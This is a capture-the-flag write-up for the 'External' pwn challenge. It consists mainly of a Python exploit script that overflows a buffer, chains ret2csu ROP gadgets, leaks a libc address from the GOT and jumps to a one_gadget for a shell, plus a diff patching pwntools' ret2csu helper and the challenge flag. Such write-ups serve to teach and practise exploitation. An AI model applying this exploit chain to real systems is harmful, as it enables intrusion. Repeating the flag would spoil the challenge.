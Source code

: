 # External

EU instance: 161.97.176.150 9999

US instance: 185.172.165.118 9999

author: M_alpha

**Files**: `libc-2.28.so`, `external`							 										

## Solving
I really didn't like this challenge, so here's a plain exploit script:
```python
from pwnscripts import *
context.libc_database = 'libc-database'
context.libc = 'libc-2.28.so'
context.binary = 'external'
scratch = context.binary.bss(0x500) # r/w place to dump ROP chain
context.log_level = 'debug'
r = remote('161.97.176.150', 9999)

# increase rop chain size
R = ROP(context.binary)
sys_ret = R.find_gadget(['syscall', 'ret'])
R.raw(b'a'*0x50)  # padding required for overflow
R.raw(scratch)
R.ret2csu(edi=0, rsi=scratch, rdx=999, rbp=scratch-8)
R.raw(sys_ret)    # call SYS_read(0, scratch, 999)
R.raw(context.binary.symbols['main']+0x45) # mov eax, 0; leave; ret;
r.sendafter('> ', R.chain())
# leak libc
R = ROP(context.binary)
R.write_syscall(1, context.binary.got['__libc_start_main'])
R.ret2csu(edi=1, rsi=scratch, rdx=0)
R.write_syscall() # this will set eax to 0
R.ret2csu(edi=0, rsi=scratch, rdx=999, rbp=scratch-8)
R.raw(sys_ret)    # call SYS_read(0, scratch, 999)
R.raw(context.binary.symbols['main']+0x45) # mov eax, 0; leave; ret;
r.send(R.chain())
# return to one_gadget
context.libc.symbols['__libc_start_main'] = unpack_bytes(r.recv(0x38),6)
R = ROP(context.binary)
R.raw(context.libc.select_gadget(1)) # libc-2.28 means there are good one_gadgets
R.raw(b'\0'*0x100)
r.sendline(R.chain())
r.interactive()
```
This script won't work if you try it yourself. To get ret2csu done automatically, I grabbed the code for pwntools' [`rop.ret2csu` pull request](https://github.com/Gallopsled/pwntools/pull/1429) and made a few changes:
```diff
diff --git a/pwnlib/rop/ret2csu.py b/pwnlib/rop/ret2csu.py
index 39eef821..350efc1d 100644
--- a/pwnlib/rop/ret2csu.py
+++ b/pwnlib/rop/ret2csu.py
@@ -56,33 +56,22 @@ def ret2csu(rop, elf, edi, rsi, rdx, rbx, rbp, r12, r13, r14, r15, call=None):
     csu_function = elf.read(elf.sym['__libc_csu_init'], elf.sym['__libc_csu_fini'] - elf.sym['__libc_csu_init'])

     # 1st gadget: Populate registers in preparation for 2nd gadget
-    for insn in md.disasm(csu_function, elf.sym['__libc_csu_init']):
+    for i,insn in enumerate(md.disasm(csu_function, elf.sym['__libc_csu_init'])):
         if insn.mnemonic == 'pop' and insn.operands[0].reg == X86_REG_RBX:
             rop.raw(insn.address)
             break
+        if insn.mnemonic == 'call': call_index = i
     # rbx and rbp must be equal after 'add rbx, 1'
     rop.raw(0x00)  # pop rbx
     rop.raw(0x01)  # pop rbp
-    if call:
-        rop.raw(call)  # pop r12
-    else:
-        rop.raw(fini)  # pop r12

     # Older versions of gcc use r13 to populate rdx then r15d to populate edi, newer versions use the reverse
     # Account for this when the binary was linked against a glibc that was built with a newer gcc
-    for insn in md.disasm(csu_function, elf.sym['__libc_csu_init']):
-        if insn.mnemonic == 'mov' and insn.operands[0].reg == X86_REG_RDX and insn.operands[1].reg == X86_REG_R13:
-            rop.raw(rdx)  # pop r13
-            rop.raw(rsi)  # pop r14
-            rop.raw(edi)  # pop r15
-            rop.raw(insn.address)
-            break
-        elif insn.mnemonic == 'mov' and insn.operands[0].reg == X86_REG_RDX and insn.operands[1].reg == X86_REG_R15:
-            rop.raw(edi)  # pop r13
-            rop.raw(rsi)  # pop r14
-            rop.raw(rdx)  # pop r15
-            rop.raw(insn.address)
-            break
+    reg_mapping = dict(reversed(list(map(lambda op: insn.reg_name(op.reg)[:3], insn.operands))) for insn in list(md.disasm(csu_function, elf.sym['__libc_csu_init']))[call_index-3:call_index])
+    for reg in ['r12', 'r13', 'r14']: rop.raw(eval(reg_mapping[reg]))
+    if call: rop.raw(call)  # pop r15
+    else: rop.raw(fini)  # pop r15
+    rop.raw(list(md.disasm(csu_function, elf.sym['__libc_csu_init']))[call_index-3].address)

     # 2nd gadget: Populate edi, rsi & rdx. Populate optional registers
     rop.raw(Padding('<add rsp, 8>'))  # add rsp, 8
```
You can try manually applying this yourself, or you might want to just wait for the `rop.ret2csu` dev to finish his module.

Anyway, here is the flag:

## Flag
`flag{0h_nO_My_G0t!!!!1111!1!}`
